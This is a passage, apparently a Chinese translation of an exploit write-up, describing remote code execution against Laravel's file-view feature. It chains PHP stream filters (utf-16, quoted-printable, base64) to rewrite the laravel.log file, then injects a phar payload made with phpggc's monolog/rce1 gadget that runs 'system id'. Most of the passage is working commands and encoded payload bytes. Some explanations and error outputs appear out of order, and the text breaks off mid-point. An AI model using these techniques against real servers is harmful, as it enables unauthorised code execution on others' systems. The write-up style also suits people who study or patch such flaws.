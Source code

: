 ```
php > echo file_get_contents('php://filter/read=convert.iconv.utf16le.utf-8/resource=/tmp/test.txt');
卛浯⁥牰晥硩崠PAYLOAD存業晤硩偝䄀夀䰀伀䄀䐀堀卛浯⁥畳晦硩崠
```

这真的很好：我们的有效载荷在那里，安全无恙，前缀和后缀变成了非 ASCII 字符。然而，在日志条目中，我们的有效载荷显示了两次，而不是一次。我们需要去掉第二个。

由于 UTF-16 是用两个字节工作的，所以我们可以通过在 payload 的末尾增加一个字节来错位第二个实例：

```
$ echo -n TEST! | base64 | sed -E 's/./\0\\0/g'
V\0E\0V\0T\0V\0C\0E\0=\0
$ echo -ne '[Some prefix ]V\0E\0V\0T\0V\0C\0E\0=\0X[midfix]V\0E\0V\0T\0V\0C\0E\0=\0X[Some suffix ]' > /tmp/test.txt
```

```
php > echo file_get_contents('php://filter/read=convert.iconv.utf16le.utf-8|convert.base64-decode/resource=/tmp/test.txt');
TEST!
```

这样做的好处是，前缀的对齐方式不再重要：如果前缀大小均匀，第一个有效载荷将被正确解码。如果不是，第二个就会被正确解码。

我们现在可以将我们的发现与通常的 base64 解码结合起来，对任何我们想要的东西进行编码：

```
PHP Warning:  file_get_contents(): iconv stream filter ("utf16le"=>"utf-8"): invalid multibyte sequence in php shell code on line 1
```

```
[prefix]PAYLOAD_A[midfix]PAYLOAD_A[suffix]
[prefix]PAYLOAD_B[midfix]PAYLOAD_B[suffix]
```

说到对齐，如果日志文件本身不是 2 字节对齐的，转换过滤器会如何处理？

```
PHP Warning:  file_get_contents() expects parameter 1 to be a valid path, string given in php shell code on line 1
```

又是一个问题。我们可以很容易地通过两个有效载荷来解决这个问题：一个是无害的有效载荷 A，另一个是主动的有效载荷 B：

```
viewFile: php://filter/write=convert.quoted-printable-decode|convert.iconv.utf-16le.utf-8|convert.base64-decode/resource=/path/to/storage/logs/laravel.log
```

由于前缀、中缀和后缀都存在两次，还有 payload_a 和 payload_b，所以日志文件的大小必然是偶数，避免了错误的发生。

最后，我们还要解决最后一个问题：我们使用 NULL 字节将 payload 字节从一个垫到两个。在 PHP 中试图加载一个带有 NULL 字节的文件，结果会出现以下错误：

```
php -d'phar.readonly=0' ./phpggc monolog/rce1 system id --phar phar -o php://output | base64 -w0 | sed -E 's/./\0=00/g'
U=00E=00s=00D=00B=00A=00A=00A=00A=00A=00A=00A=00A=00A=00A=00A=00I=00Q=00A=00M=00f=00n=00/=00Y=00B=00A=00A=00A=00A=00A=00Q=00A=00A=00A=00A=00F=00A=00B=00I=00A=00Z=00H=00V=00t=00b=00X=00l=00u=00d=00Q=004=00A=001=00U=00l=003=00t=00r=00Q=00B=00A=00A=00A=00A=00A=00A=00A=00A=00A=00A=00B=000=00Z=00X=00N=000=00U=00E=00s=00D=00B=00A=00A=00A=00A=00A=00A=00A=00A=00A=00A=00A=00I=00Q=00A=007=00m=00z=00i=004=00H=00Q=00A=00A=00A=00B=000=00A=00A=00A=00A=00O=00A=00B=00I=00A=00L=00n=00B=00o=00Y=00X=00I=00v=00c=003=00R=001=00Y=00i=005=00w=00a=00H=00B=00u=00d=00Q=004=00A=00V=00y=00t=00B=00h=00L=00Y=00B=00A=00A=00A=00A=00A=00A=00A=00A=00A=00A=00A=008=00P=003=00B=00o=00c=00C=00B=00f=00X=000=00h=00B=00T=00F=00R=00f=00Q=000=009=00N=00U=00E=00l=00M=00R=00V=00I=00o=00K=00T=00s=00g=00P=00z=004=00N=00C=00l=00B=00L=00A=00w=00Q=00A=00A=00A=00A=00A=00A=00A=00A=00A=00A=00C=00E=00A=00D=00H=005=00/=002=00A=00Q=00A=00A=00A=00A...=00Q=00==00==00
```
